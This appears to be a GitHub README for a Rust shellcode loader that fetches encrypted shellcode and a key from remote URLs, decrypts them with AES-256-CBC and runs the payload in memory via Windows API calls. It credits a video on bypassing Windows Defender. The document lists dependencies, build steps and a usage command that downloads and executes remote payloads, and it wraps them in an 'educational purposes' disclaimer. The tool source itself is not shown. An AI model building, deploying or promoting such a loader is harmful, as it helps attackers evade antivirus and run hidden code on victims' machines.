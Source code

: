 # AES-256-CBC Shellcode Decryptor and Executor in Rust

This Rust application fetches encrypted shellcode and an encryption key from provided URLs, decrypts the shellcode using AES-256-CBC, and executes it in memory on Windows systems. It utilizes PBKDF2-inspired concepts and Windows API calls for memory allocation and execution. This project was inspired by foundational knowledge from *Gemini Cyber Security’s* video *["Getting Started with Rust - Bypass Windows Defender"](https://www.youtube.com/watch?v=o8af1KeMrRc&t=95s)*.

> **Note:** This tool is intended for educational and security research purposes only. Use responsibly and in compliance with applicable laws.

## Features
- **AES-256-CBC Decryption**: Decrypts shellcode using the AES-256 algorithm in CBC mode.
- **Remote File Fetching**: Retrieves encrypted shellcode and keys from HTTP URLs using `reqwest`.
- **In-Memory Execution**: Allocates memory and executes decrypted shellcode via Windows API calls (`VirtualAlloc`, `VirtualProtect`, `CreateThread`).
- **Zero-Initialized IV**: Uses a static IV for simplicity (not recommended for production use).

## Prerequisites
### 1. Rust Installation
Ensure Rust is installed. If needed, install it via Rustup:

```sh
curl --proto '=https' --tlsv1.2 -sSf https://sh.rustup.rs | sh
```

### 2. Windows OS
This project utilizes Windows-specific APIs (`windows-sys`) and is not compatible with other operating systems.

### 3. Internet Access
Required to fetch encrypted shellcode and key from provided URLs.

## Building the Project
### 1. Clone the Repository
```sh
git clone <repository_url>
cd <repository_name>
```

### 2. Install Dependencies
Ensure your `Cargo.toml` includes the following dependencies:

```toml
[dependencies]
aes = "0.8"
block-modes = "0.8"
pbkdf2 = "0.12"
sha2 = "0.10"
hex = "0.4"
hmac = "0.12"
reqwest = { version = "0.11", features = ["blocking"] }
windows-sys = { version = "0.52", features = ["Win32_Foundation", "Win32_System_Memory", "Win32_System_Threading"] }
```

Then, build the project in release mode:

```sh
cargo build --release
```

The compiled binary will be located in the `target/release` directory.

## Usage
Run the application with the following command, providing URLs to the encrypted shellcode and the encryption key:

```sh
./target/release/rust -exec <shellcode_url> <key_url>
```

### Example:
```sh
./target/release/rust -exec http://example.com/encrypted_shellcode http://example.com/key
```

This will:
1. Fetch the encrypted shellcode and key from the specified URLs.
2. Decrypt the shellcode using AES-256-CBC with a zero-initialized IV.
3. Allocate executable memory, copy the decrypted shellcode, and execute it as a new thread.

If successful, the program will output:
```
Decryption and execution succeeded.
```

## Security Considerations
- **Static IV**: The IV is set to zero, which compromises security by making the encryption predictable. For real-world use, a cryptographically secure random IV should be used.
- **Key Management**: The key is fetched remotely but not validated. Ensure the key source is trusted and secure.
- **Shellcode Execution**: Executing arbitrary code in memory can be dangerous and should only be done in controlled environments.
- **Error Handling**: Basic error reporting is implemented, but robust error handling should be added for production use.

## Credits
This project was inspired by *[Gemini Cyber Security](https://www.youtube.com/@gemini_security)* and their video *"Getting Started with Rust - Bypass Windows Defender"*. Special thanks to them for their educational content that helped guide this development.

## License
This project is licensed under the **MIT License**. See the `LICENSE` file for details.

## Disclaimer
This tool is for educational and research purposes only. The author is not responsible for any misuse or damage caused by this software. Use it at your own risk and ensure compliance with all relevant laws and regulations.

